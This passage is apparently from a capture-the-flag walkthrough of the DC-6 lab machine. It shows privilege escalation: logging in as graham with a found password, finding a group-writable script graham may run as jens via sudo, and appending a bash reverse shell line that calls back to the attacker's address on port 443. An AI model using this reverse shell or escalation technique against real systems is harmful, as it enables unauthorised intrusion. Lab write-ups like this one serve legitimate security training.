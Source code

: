 ## Privilege Escalation
### Exposed credentials

We switch to the user graham. 

```console
www-data@dc-6:/home/mark$ su - graham
su - graham
Password: GSo7isUM1D4

graham@dc-6:~$ id
id
uid=1001(graham) gid=1001(graham) groups=1001(graham),1005(devs)
graham@dc-6:~$
```

User graham has sudo permissions to execute the **/home/jens/backups.sh**  script as user **jens** with no password.

```console
graham@dc-6:~$ sudo -l  
sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
graham@dc-6:~$
```

### Sudo Permissions

We see that the script has execution privileges for all users, since **graham** belongs to the (devs) group it was possible to read the bash sciript and even write it.

```console
graham@dc-6:~$ ls -la /home/jens/backups.sh
ls -la /home/jens/backups.sh
-rwxrwxr-x 1 jens devs 50 Apr 26  2019 /home/jens/backups.sh

graham@dc-6:~$ cat /home/jens/backups.sh
cat /home/jens/backups.sh
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
graham@dc-6:~$
```

We add the following bash reverse shell to **/home/jens/backups.sh**.

```console
graham@dc-6:~$ echo "bash -i >& /dev/tcp/192.168.179.1/443 0>&1" >> /home/jens/backups.sh
```

We start a netcat listener on port 443 and execute the following command on the server.
